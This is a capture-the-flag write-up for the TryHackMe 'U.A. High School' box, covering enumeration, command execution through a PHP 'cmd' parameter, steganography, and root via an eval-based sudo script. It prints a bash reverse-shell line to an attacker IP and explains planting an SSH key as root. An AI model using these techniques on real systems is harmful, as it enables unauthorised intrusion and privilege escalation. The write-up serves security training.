



# TryHackMe - U.A. High School

## Enumeration

We start with our nmap scan which just reveals an SSH and HTTP server running.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 07:00 EDT
Nmap scan report for 10.10.42.185
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.35 seconds
```

We begin to enumerate the HTTP server by running feroxbuster which reveals the assets subdirectory.&#x20;

<figure><figcaption></figcaption></figure>

Feroxbuster doesn't reveal any further details which is where we'll bring GoBuster in for the fine tuning, we'll configure our scan to search for specific file types which gives us a hit for "index.php"

```
gobuster dir -u 10.10.42.185/assets -w /usr/share/wordlists/dirb/common.txt -x php,txt,js,css,zip
```

<figure><figcaption></figcaption></figure>

This just appears to be an empty PHP file to the client, but since PHP code is executed server side there may be something that is happening behind the scenes that we can't see. Curious to see if there is anything we can pass to this, we utilise wfuzz which should find any endpoints of usage, and we'll also specify the wordlist to be the "common.txt" wordlist which is stored in the following location, on a default Kali install.

```
/usr/share/seclists/Discovery/Web-Content/common.txt
```

We're going out on a limb and try to read the `/etc/passwd` file on the machine and we get a hit with the "cmd" parameter.

<figure><figcaption></figcaption></figure>

## Foothold

So we have code execution! Amazing, let's get a shell. We try a Netcat shell but don't appear to have a binary on the box, so decide to craft our own shell. We make a simple Bash reverse shell:

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.8.61.246/9999 0>&1'
```

Run our first command to download the binary onto the box and store it in the tmp directory, which we can assume we have write access in.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We double check to ensure it's saved, which we can confirm through the output from the website, which is Base64 encoded.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We make our binary executable iwth `chmod +x /tmp/shell.sh` and then run it with `bash /tmp/shell.sh` which gets us a reverse shell as www-data.

<figure><figcaption></figcaption></figure>

When on the box we find two images in the images folder that we'd found through our enumeration then begin working backwards, eventually finding another folder, "Hidden\_Content" in `/var/www` which we find another Base64 encoded flag in. Decoding it gives us some kind of password..

<figure><figcaption></figcaption></figure>

## User

We remain curious about the images we found earlier so downlaod them onto the system and see whether there's some kind of Steganography in them. We find nothing of interest in "yuei.jpg" and find that "oneforall.jpg" isn't supported, which seems to imply there's something corrupt with the file. We inspect the structure of the file and see it's configured to be a PNG file, so correct with this with the appropriate file signature.

```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```

<figure><figcaption></figcaption></figure>

We can see that our file changes from a "data" file to a complete JPEG file, indicating it is back to its restored state.

<figure><figcaption></figcaption></figure>

We run steghide extract with our credentials and get "creds.txt"

<figure><figcaption></figcaption></figure>

We take these creds and SSH into the box which gives us user!

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Root

We run `sudo -l` and find a script that allows the user to input something to save to a file, but it's not sanitised properly so we can make this write to whatever file we want!

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```

We run a POC by saving some random contents to a file then checking the permissions, and we see it's owned by root. Since we only have writing permissions our route for root here is to simply upload our own public SSH key and then SSH into the box.

We grab our public key and then run the script again, saving it into the default location where authorised keys should be stored...

<figure><figcaption></figcaption></figure>

We attempt to SSH into the box which is successful and as such, gives us the box!

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>
